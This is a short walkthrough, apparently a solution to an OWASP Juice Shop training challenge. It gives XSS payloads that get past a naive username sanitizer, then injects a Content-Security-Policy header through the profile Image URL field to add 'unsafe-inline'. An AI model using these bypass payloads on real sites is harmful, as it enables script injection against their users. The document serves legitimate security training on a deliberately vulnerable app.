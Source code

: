 # Overwrite Content Security Policy Header


1. Navigate to [http://hackertarget:88](http://hackertarget:88) or [https://demo.owasp-juice.shop].

1. Log in with an account.

1. A forced directory search or other scan finds the /profile subdirectory. Manually navigate to it.

1. Enter this following value in _Username_:
    ```
    <script>alert(`xss)</script>`
    ```
    This is sanitized, but the sanitizer is naive.

1. Enter the following in _Username_:
    ```
    <<a|ascript>alert(`xss)</script>`
    ```

1. Set the _Image URL_ field to https://placekitten/300/300.

1. Note that the Content-Security-Header on the response page contains an entry like:
    ```
    /assets/public/images/uploads/22.jpg; script-src 'self' 'unsafe-eval' https://code.getmdl.io http://ajax.googleapis.com
    ```
1. Submit http://not.an.image/image.png in the _Image URL_ and view the response:
    ```
    http://not.an.image/image.png; script-src 'self' 'unsafe-eval' https://code.getmdl.io http://ajax.googleapis.com
    ```
1. Now submit the following text for the _Image URL_:
    ```
    http://not.an.image/image.png script-src 'unsafe-inline' 'self' 'unsafe-eval' https://code.getmdl.io http://ajax.googleapis.com
    ```